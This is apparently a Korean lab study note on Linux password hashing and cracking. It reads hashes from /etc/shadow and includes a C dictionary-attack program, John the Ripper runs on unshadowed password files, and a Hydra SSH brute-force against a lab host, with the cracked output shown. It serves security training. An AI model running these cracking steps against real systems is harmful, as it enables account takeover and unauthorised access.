



# 시스템 인증 방식


<br>

#####  패스워드 생성하는 프로그램을 실행

환경 설정

```
yum -y install gcc       << 설치
```

<br>

/etc/shadow 에서 다른 사용자의 정보를 가지고 온다 

```
vim /etc/shadow
ktest:
$6
$RUybtCsuJIbQA.Z/
$Ug/9eaaXInjJy7PRJf2KisilLWdT5s5s/Jrx35LVOQGH2coDfGOZNNRScwcGFjeo9Ssq5snWcsqgZFJUum1Ja0:19183:0:99999:7:::
```

<br>

소스 코드 준비

```
vim /root/pass.c

#include <stdio.h>
#include <crypt.h>
int main(){
        char pPass[] = "P@ssw0rd";
        char pHash[] = "$6$RUybtCsuJIbQA.Z/";
        char *pResult;
        pResult = crypt(pPass, pHash);
        printf("%s\n", pResult);
        return 0;
}

```

<br>

컴파일 후 실행 

```
[root@localhost ~]# gcc -o pass pass.c -lcrypt
[root@localhost ~]# ./pass
$6$RUybtCsuJIbQA.Z/$Ug/9eaaXInjJy7PRJf2KisilLWdT5s5s/Jrx35LVOQGH2coDfGOZNNRScwcGFjeo9Ssq5snWcsqgZFJUum1Ja0

/etc/shadow 파일에 있는 정보와 같은지 확인 해보기
```

<br>

<br>

<br>



### Local Password Cracking

##### 소스 코드를 이용한  패스워드 크래킹

```
vim /root/dictionary_attack.c

#include <stdio.h>
#include <string.h>
#include <crypt.h>

int main(){
                char key[]="$6$sK59qs5l$HFN1x3n6jtRTgNXVZsX.6dJfvEfS.Pd0MquMQggzlN7j7cI9W/Mgl05pj9pN.vlOnuPTSIJ7OE6zhdoyPYcaa0";
                char hash[]="$6$sK59qs5l$";
                char word[20]="\0";
                char * result;
                FILE * fp = fopen("dict.txt","r");
                while(fscanf(fp,"%s",word) != EOF){
                        result = crypt(word,hash);
                        if(strcmp(result, key)==0){
                                printf("key is: %s\n" , word);
                                break;
                        }
                }
                fclose(fp);
                return 0;
}
```

<br>

##### john the ripper 를 사용한 패스워드 크래킹 



<br>

환경 설정

```
# yum -y install gcc
[root@localhost ~]# cd ~
[root@localhost ~]# pwd
/root
[root@localhost ~]# wget
wget: missing URL
Usage: wget [OPTION]... [URL]...

Try 'wget --help' for more options.

[root@localhost ~]# wget https://www.openwall.com/john/k/john-1.9.0.tar.gz --no-check-certificate
--2022-10-26 03:16:46--  https://www.openwall.com/john/k/john-1.9.0.tar.gz
Resolving www.openwall.com... 195.42.179.202
Connecting to www.openwall.com|195.42.179.202|:443... connected.
WARNING: cannot verify www.openwall.com s certificate, issued by `/C=US/O=Let\'s Encrypt/CN=R3':
 Issued certificate has expired.
HTTP request sent, awaiting response... 200 OK
Length: 13110145 (13M) [application/octet-stream]
Saving to: 'john-1.9.0.tar.gz'

100%[================================================================================================>] 13,110,145   853K/s   in 15s     

2022-10-26 03:17:02 (876 KB/s) - `john-1.9.0.tar.gz' saved [13110145/13110145]
```

<br>

압축 해제

```
[root@localhost ~]# tar zxvf ./john-1.9.0.tar.gz
[root@localhost ~]# ls
VMwareTools-10.3.23-16594550.tar.gz  epel-release-6-8.noarch.rpm  john-1.9.0.tar.gz     snortrules-snapshot-2983.tar.gz  문서      음악
anaconda-ks.cfg                      install.log                  pass                  vmware-tools-distrib             바탕화면  템플릿
daq-2.0.6.tar.gz                     install.log.syslog           pass.c                공개                             비디오
dictionary_attack.c                  john-1.9.0                   snort-2.9.8.3.tar.gz  다운로드                         사진
```

<br>

컴파일

```
[root@localhost src]# pwd
/root/john-1.9.0/src

[root@localhost src]# arch
x86_64

설치시 해당되는 아키텍처(CPU,OS 종류)을 선택 
[root@localhost src]# make | grep Linux
linux-x86-64-avx512      Linux, x86-64 with AVX-512 (some 2017+ Intel CPUs)
linux-x86-64-avx2        Linux, x86-64 with AVX2 (some 2013+ Intel CPUs)
linux-x86-64-xop         Linux, x86-64 with AVX and XOP (some AMD CPUs)
linux-x86-64-avx         Linux, x86-64 with AVX (some 2011+ Intel CPUs)
linux-x86-64             Linux, x86-64 with SSE2 (most common)
linux-x86-avx512         Linux, x86 32-bit with AVX-512 (some 2017+ Intel CPUs)
linux-x86-avx2           Linux, x86 32-bit with AVX2 (some 2013+ Intel CPUs)
linux-x86-xop            Linux, x86 32-bit with AVX and XOP (some AMD CPUs)
linux-x86-avx            Linux, x86 32-bit with AVX (2011+ Intel CPUs)
linux-x86-sse2           Linux, x86 32-bit with SSE2 (most common, if 32-bit)
linux-x86-mmx            Linux, x86 32-bit with MMX (for old computers)
linux-x86-any            Linux, x86 32-bit (for truly ancient computers)
linux-mic                Linux, Intel MIC (first generation Xeon Phi)
linux-arm64le            Linux, ARM 64-bit little-endian w/ASIMD (best)
linux-arm32le-neon       Linux, ARM 32-bit little-endian w/NEON (best 32-bit)
linux-arm32le            Linux, ARM 32-bit little-endian
linux-alpha              Linux, Alpha
linux-sparc64            Linux, SPARC 64-bit
linux-sparc              Linux, SPARC 32-bit
linux-ppc32-altivec      Linux, PowerPC w/AltiVec (best)
linux-ppc32              Linux, PowerPC 32-bit
linux-ppc64-altivec      Linux, PowerPC 64-bit w/AltiVec
linux-ppc64              Linux, PowerPC 64-bit
linux-ia64               Linux, IA-64

컴파일
make linux-x86-64

실행 파일 확인
[root@localhost src]# cd ../run/
[root@localhost run]# ls
alnum.chr  ascii.chr   john       lm_ascii.chr  lowernum.chr    mailer   password.lst  unafs   unshadow   uppernum.chr
alpha.chr  digits.chr  john.conf  lower.chr     lowerspace.chr  makechr  relbench      unique  upper.chr
[root@localhost run]# pwd
/root/john-1.9.0/run
```

<br>

해시값이 검증되도록  /etc/shadow , /etc/passwd 와 함께 해시값 해제

```
[root@localhost run]# ./unshadow /etc/passwd /etc/shadow > ./passaudit
[root@localhost run]# ls -al ./passaudit 
-rw-r--r-- 1 root root 2089 2022-10-26 04:10 ./passaudit
```

<br>

사전파일

```
# vim ./dict.txt
dragon
P@ssw0rd
1234
monkey
```

<br>

사전 파일에 맞는 사용자 추가

```
[root@localhost run]# useradd test02
[root@localhost run]# useradd test03
[root@localhost run]# useradd test04
[root@localhost run]# passwd test02        dragon
[root@localhost run]# passwd test03       P@ssw0rd
[root@localhost run]# passwd test04         1234
```

<br>

실행

```
[root@localhost run]# ./john --wordlist=./dict.txt ./passaudit
Loaded 3 password hashes with 3 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (ktest)
P@ssw0rd         (test01)
P@ssw0rd         (root)
3g 0:00:00:00 100% 100.0g/s 133.3p/s 400.0c/s 400.0C/s dragon..monkey
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

<br>

한번 더 실행

```
[root@localhost run]# ./john --wordlist=./dict.txt ./passaudit
Loaded 3 password hashes with 3 different salts (crypt, generic crypt(3) [?/64])
No password hashes left to crack (see FAQ)
한번 하면 기록에 남아서 더이상 진행을 안함

[root@localhost run]# rm -rf ./john.pot   << 기록 지우고
[root@localhost run]# ./john --wordlist=./dict.txt ./passaudit          << 다시 실행
Loaded 3 password hashes with 3 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (ktest)
P@ssw0rd         (test01)
P@ssw0rd         (root)
3g 0:00:00:00 100% 75.00g/s 100.0p/s 300.0c/s 300.0C/s dragon..monkey
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

<br>

추가된 사용자에 대한 정보가 없으므로 다시 해시값 해제후 확인 

```
[root@localhost run]# ./john --wordlist=./dict.txt ./passaudit
Loaded 6 password hashes with 6 different salts (crypt, generic crypt(3) [?/64])
Remaining 3 password hashes with 3 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (test02)
P@ssw0rd         (test03)
1234             (test04)
3g 0:00:00:00 100% 100.0g/s 133.3p/s 400.0c/s 400.0C/s dragon..monkey
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

<br>

<br>

<br>

##### 소스 코드를 이용한  패스워드 크래킹 

테스트 하고자 하는 shadow 파일의 값을 가져온다

```
[root@localhost ~]# cat /etc/shadow | grep ktest
ktest:$6$RUybtCsuJIbQA.Z/$Ug/9eaaXInjJy7PRJf2KisilLWdT5s5s/Jrx35LVOQGH2coDfGOZNNRScwcGFjeo9Ssq5snWcsqgZFJUum1Ja0:19183:0:99999:7:::
```

<br>

dictionary_attack.c 에 수정

```
vim /root/dictionary_attack.c

#include <stdio.h>
#include <string.h>
#include <crypt.h>

int main(){
                char key[]="$6$sK59qs5l$HFN1x3n6jtRTgNXVZsX.6dJfvEfS.Pd0MquMQggzlN7j7cI9W/Mgl05pj9pN.vlOnuPTSIJ7OE6zhdoyPYcaa0";
                char hash[]="$6$sK59qs5l$";
                char word[20]="\0";
                char * result;
                FILE * fp = fopen("dict.txt","r");
                while(fscanf(fp,"%s",word) != EOF){
                        result = crypt(word,hash);
                        if(strcmp(result, key)==0){
                                printf("key is: %s\n" , word);
                                break;
                        }
                }
                fclose(fp);
                return 0;
}
```

<br>

dict 파일 위치 확인 

```
cp /root/john-1.9.0/run/dict.txt /root/dict.txt
```

<br>

실행 후 결과 확인

```
[root@localhost ~]# gcc -o d ./dictionary_attack.c -lcrypt
[root@localhost ~]# ./d
key is: P@ssw0rd
```

<br>

### Remote Password Cracking

##### hydra  를 이용한 dictionary attack

구성도



<br>

사전 파일 생성

```
# vim passlist.txt
P@ssw0rd
monkey
dragon
1234
```

<br>

유저 이름 사전 파일 생성

```
vim /root/user.txt

test01
root
```

<br>

hydra 를 이용한 패스워드 크래킹 (ssh)

```
┌──(root㉿kali)-[~]
└─# hydra -L user.txt -P passlist.txt ssh://172.16.0.110
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-25 07:06:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:2/p:4), ~1 try per task
[DATA] attacking ssh://172.16.0.110:22/
[22][ssh] host: 172.16.0.110   login: root   password: P@ssw0rd
[22][ssh] host: 172.16.0.110   login: test01   password: P@ssw0rd
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-25 07:06:35
```

<br>

